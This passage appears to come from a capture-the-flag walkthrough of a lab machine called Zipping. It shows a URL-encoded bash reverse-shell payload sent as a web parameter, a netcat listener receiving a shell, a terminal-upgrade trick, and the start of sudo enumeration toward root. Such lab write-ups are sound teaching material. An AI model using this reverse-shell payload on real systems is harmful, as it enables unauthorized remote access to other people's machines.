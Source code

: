```
cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'

```

It is important to encode the `&` to `%26` so that it’s not treated as the end of the parameter and start of another.

At `nc`, I get a shell:

```
oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.229 49150
bash: cannot set terminal process group (1155): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$

```

I’ll upgrade using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```
rektsu@zipping:/var/www/html/shop$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
rektsu@zipping:/var/www/html/shop$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
rektsu@zipping:/var/www/html/shop$

```

And grab `user.txt` if I hadn’t already [above](#manual):

```
rektsu@zipping:/home/rektsu$ cat user.txt
ea9a4d59************************

```

## Shell as root

### Enumeration

#### sudo

rektsu can run the `stock` binary as root on Zipping:

```
rektsu@zipping:/home/rektsu$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock

```
